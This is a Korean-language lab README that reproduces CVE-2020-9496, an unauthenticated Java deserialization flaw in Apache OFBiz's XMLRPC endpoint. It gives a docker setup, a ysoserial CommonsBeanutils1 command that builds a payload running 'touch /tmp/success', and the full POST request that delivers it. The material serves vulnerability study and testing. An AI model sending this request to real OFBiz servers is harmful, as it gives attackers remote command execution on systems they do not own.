

# ApacheOfBiz에서 XMLRPC 인자에 대한 안전하지 않은 역직렬화 (CVE-2020-9496)

Apache OFBiz는 오픈 소스 ERP(enterprise resource planning, 전사적 자원 관리) 시스템으로 이는 기업의 많은 비즈니스 프로세스를 통합하고 자동화하는 기업 애플리케이션 제품군을 제공한다.

OfBiz는 `/webtools/control/xmlrpc`에 XMLRPC 엔드포인트를 노출하는데 대게 인증은 서비스별로 적용되므로 이는 인증되지 않은 엔드포인트이다. 하지만, XMLRPC 요청은 인증 전에 처리되기에 이 과정에서 원격 호출로 인한 직렬화된 인자가 역직렬화된다. 따라서 클래스 경로에 원격 코드 실행을 위한 도구로 사용할 수 있는 클래스가 포함되어 있으면, 공격자는 OfBiz 서버에서, OfBiz를 실행하는 서블릿 컨테이너와 동일한 권한을 가지는 등의 임의의 시스템 명령을 실행할 수 있다. 

<용어 정의>
직렬화: 객체들의 데이터를 연속적인 데이터(스트림)로 변형하여 전송 가능한 형태로 만드는 것 \n
역직렬화: 직렬화된 데이터를 다시 객체의 형태로 만드는 것 \n
XMLRPC: XML-RPC란, RPC 프로토콜의 일종으로서, 인코딩 형식에서는 XML을 채택하고, 전송 방식에서는 HTTP 프로토콜을 사용하고 있다.

## 실행 환경 구성

Apache OfBiz (17.12.01)를 실행하기 위해 아래 명령어를 입력하자:

```
docker compose up -d
```
 
잠시 후, 로그인 페이지가 나타나는데 `https://your-ip/myportal/control/main`에서 확인할 수 있다.

## 취약점 재현

CommonsBeanutils1 payload 생성:

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" | base64 | tr -d "\n"
```


`[base64-payload]`를 교체하고, request 보내기:

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```



`touch /tmp/success` 컨테이너에서 실행된 것을 확인할 수 있다:


## 참조:

1. https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz
2. https://github.com/dwisiswant0/CVE-2020-9496
3. https://www.cnblogs.com/ph4nt0mer/p/13576739.html
